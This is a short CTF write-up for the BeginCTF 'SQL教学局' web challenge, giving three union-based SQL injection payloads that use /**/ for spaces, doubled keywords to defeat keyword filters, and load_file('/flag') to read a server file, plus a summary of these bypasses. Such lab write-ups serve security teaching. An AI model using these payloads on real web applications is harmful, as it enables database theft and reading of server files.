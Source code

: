 ```yaml
---
title: [BeginCTF]SQL教学局
category: CTF-Web-SQL
date: 2024-2-3
---
```


source:[BeginCTF]SQL教学局

## info

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-1.png)

## EXP

```cpp
?user=1'/**/union/**/seselectlect/**/flag/**/frofromm/**/secret.passwoorrd%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-2.png)

```cpp
?user=1'/**/union/**/seselectlect/**/grade/**/frofromm/**/scoorre/**/where/**/student/**/like/**/'begin'%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-3.png)

```cpp
?user=1'/**/union/**/seleselectct/**/loaloadd_file('/flag')%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-4.png)

## Summary

```cpp
类型：
联合查询注入

注释：
%23

空格过滤绕过：
/**/

关键字'or','from','select','load'过滤绕过：
双写关键字

and过滤绕过：
like

文件读取函数：
load_file('/path')
```

